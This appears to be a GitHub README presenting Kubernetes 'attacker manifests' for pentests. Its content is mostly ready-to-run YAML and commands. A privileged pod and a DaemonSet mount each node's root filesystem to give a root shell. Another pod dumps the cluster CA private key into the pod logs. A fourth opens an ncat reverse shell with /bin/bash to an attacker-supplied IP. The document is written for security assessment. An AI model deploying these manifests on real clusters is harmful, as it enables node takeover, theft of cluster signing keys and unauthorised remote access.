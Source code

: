 # Attacker Manifests

These are Kubernetes manifests that could be useful on security assessments, or pentests. 

N.B. for pentesters, make sure you have delete rights to the objects you create and make sure to clean up when you're done!

## General form

* `kubectl create -f [MANIFEST.YAML]` creates object contained in a file called [MANIFEST.YAML]
* `kubectl delete -f [MANIFEST.YAML]` deletes object contained in a file called [MANIFEST.YAML]

if you want to create the objects in a specific namespace that isn't your current active one add the following to your manifest under metadata

```yaml
  namespace: [NAMESPACENAME]
```

## Root Pod

This manifest will create a privileged pod on a node in the cluster. Once it's running `kubectl exec -it noderootpod chroot /host` should give you a root shell on the node.

This won't work if :-

1. You don't have right to create pods in the namespace. You'll also need rights to pod/exec in order to get the shell in the pod afterwards.
2. The node can't pull images from Docker Hub
3. There's PodSecurityPolicies (or equivalent) blocking the creation of privileged pods

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: noderootpod
  labels:
spec:
  tolerations:
  - key: node-role.kubernetes.io/master
    effect: NoSchedule
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: noderootpod
    image: busybox
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

## Root daemonset

This manifest does the same thing as the pod one, except it creates a pod on every cluster node (including control plane nodes in un-managed clusters). Once it's running, get a list of pods in the daemonset with `kubectl get daemonset noderootdaemon` then use kubectl exec (as above) to execute the `chroot /host` command in one of the pods

This won't work if :-

1. You don't have right to create daemonsets in the namespace. You'll also need rights to pod/exec to get the shell afterwards.
2. The node can't pull images from Docker Hub
3. There's PodSecurityPolicies (or equivalent) blocking the creation of privileged pods by the replicaset controller in that namespace.


```yaml
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: noderootdaemon
  labels:
spec:
  selector:
    matchLabels:
      name: noderootdaemon
  template:
    metadata:
      labels:
        name: noderootdaemon
    spec:
      tolerations:
      - key: node-role.kubernetes.io/master
        effect: NoSchedule
      hostNetwork: true
      hostPID: true
      hostIPC: true
      containers:
      - name: noderootpod
        image: busybox
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: noderoot
        command: [ "/bin/sh", "-c", "--" ]
        args: [ "while true; do sleep 30; done;" ]
      volumes:
      - name: noderoot
        hostPath:
          path: /
```

## Sensitive file logger

In a scenario where you have create pods and access to pod logs (a right commonly given for diagnostics) but don't have pod/exec, it can still be possible to use your rights to escalate access to a cluster, by creating a pod which cat's a file to STDOUT (as this will be logged in the container logs)

The manifest below is an example of this. It would work on a kubeadm cluster, when deployed to a master node. To adapt to other scenarios, just change the volume mount and file in the `command` parameter

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: keydumper-pod
  labels:
    app: keydumper
spec:
  tolerations:
  - key: node-role.kubernetes.io/master
    effect: NoSchedule
  containers:
  - name: keydumper-pod
    image: busybox
    volumeMounts:
    - mountPath: /pki
      name: keyvolume
    command: ['cat', '/pki/ca.key']
  volumes:
  - name: keyvolume
    hostPath:
      path: /etc/kubernetes/pki
      type: Directory
```

## Reverse Shell

For setups where you only have create pod, but don't have access to pod/exec or pod logs, it's often possible to setup a reverse shell. First setup an ncat listener with something like

```bash
ncat -l -p 8989
```

Then use the manifest below. Replace `[IP]` with the IP address of the host with the ncat listener.  

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: ncat-reverse-shell-pod
spec:
  tolerations:
  - key: node-role.kubernetes.io/master
    effect: NoSchedule
  containers:
  - name: ncat-reverse-shell
    image: raesene/ncat
    volumeMounts:
    - mountPath: /host
      name: hostvolume
    args: ['[IP]', '8989', '-e', '/bin/bash']
  volumes:
  - name: hostvolume
    hostPath:
      path: /
      type: Directory
```
